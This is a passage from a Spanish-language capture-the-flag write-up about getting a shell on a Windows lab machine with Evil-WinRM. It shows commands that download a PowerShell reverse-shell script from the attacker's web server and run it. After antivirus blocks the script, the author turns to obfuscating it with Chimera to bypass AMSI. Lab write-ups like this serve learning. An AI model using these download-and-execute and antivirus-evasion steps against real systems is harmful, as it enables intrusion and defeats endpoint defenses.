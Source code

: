 > `rlwrap` nos permite movernos entre comandos y tener historico de ellos, lo que si permite es perder la terminal, así que ojito con el `CTRL+C`.

Ya con el puerto arriba, lo único que falta es subir el archivo `Invoke-PowerShellTcp.ps1` y ejecutarlo, solo que antes de eso, validemos en que parte del sistema lo subiremos:

```powershell
*Evil-WinRM* PS C:\> invoke-c... -scriptblock { ls -force }
...
    Directory: C:\Users\svc_deploy\Documents
...
```

Pues esa ruta está bien, procedamos a subirlo a la máquina ([maneras de subir un archivo de Linux a Windows](https://lanzt.gitbook.io/cheatsheet-pentest/#linux-to-windows)):

```powershell
*Evil-WinRM* PS C:\> invoke-c... -scriptblock { IWR -uri http://10.10.14.86:8000/Invoke-PowerShellTcp.ps1 -OutFile c:\Users\svc_deploy\Documents\Invoke-PowerShellTcp.ps1 }
```

Esperamos un poco, obtenemos la petición en nuestro servidor web yyy en el sistema debería estar el objeto:

```powershell
*Evil-WinRM* PS C:\> invoke-c... -scriptblock { ls -force }
...
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
-a----      25/25/2022   25:25 AM           4403 Invoke-PowerShellTcp.ps1
...
```

Y listos, lo ejecutamos:

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock { .\Invoke-PowerShellTcp.ps1 }
...
This script contains malicious content and has been blocked by your antivirus software.
...
```

Ahss, sale un error que indica que el **antivirus** lo bloquea :o

## Saltando antivirus, que no molesten! [📌](#obfuscation-ps-script) {#obfuscation-ps-script}

PEEEEEEEERO! Buscando en internet encontramos este repo interesante que nos podría ayudar:

> "<u>Chimera</u> is a **PowerShell** obfuscation script **designed to bypass AMSI** and **commercial antivirus solutions**." ~ [Chimera](https://github.com/tokyoneon/Chimera).

Un ofuscador de scripts creados en **PowerShell**, esto sirve básicamente para saltar posibles "reglas" implementadas por antivirus o firewalls en un sistema, por ejemplo un antivirus busca cadenas de texto que contengan `"payload"`, lo que hará la herramienta es intentar ocultar esa string así (no específicamente, pero para que se entienda):
